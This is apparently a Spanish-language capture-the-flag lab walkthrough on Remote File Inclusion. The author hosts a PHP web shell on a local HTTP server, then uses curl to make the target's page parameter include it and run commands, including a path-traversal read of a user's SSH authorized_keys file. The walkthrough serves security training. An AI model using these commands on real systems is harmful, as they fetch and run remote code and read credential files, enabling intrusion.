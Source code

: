 # Walk: Laboratorio 1 de 2 Remote File Inclusion.

## Fecha: 20/01/2025
## Host: Ubuntu
## IP: 192.168.227.16

---

## Objetivo
Follow the steps from this section to leverage RFI to remotely include the 
**/usr/share/webshells/php/simple-backdoor.php** PHP file. Use the "cmd" parameter to execute commands on VM #1 
and use the cat command to view the contents of the **authorized_keys** file in the **/home/elaine/.ssh/** directory. 
The file contains one entry including a restriction for allowed commands. 
Find the flag specified as the value to the command parameter in this file.

---
## Herramientas
1. python3 http.server 
2. curl
---
## Procedimiento y comandos
1. Paso 1: Levantamos el servidor python3 en el directorio **/usr/share/webshells/php/
	-  **python3 -m http.server 80**
2. Paso 2: Probamos el backdor:
	- **curl -i "http://192.168.227.16/meteor/index.php?page=http://192.168.45.205/simple-backdoor.php&cmd=ls"**
	- Respuesta Positiva.
3. Paso 3: Ejecutamos **RFI** para obtener el flag en el directorio **/home/eliane/.ssh**
	- **curl -i "http://192.168.227.16/meteor/index.php?page=http://192.168.45.205/simple-backdoor.php&cmd=cat%20%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/elaine/.ssh/authorized_keys"**
	- Obtenemos el flag en la respuesta del curl.
---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

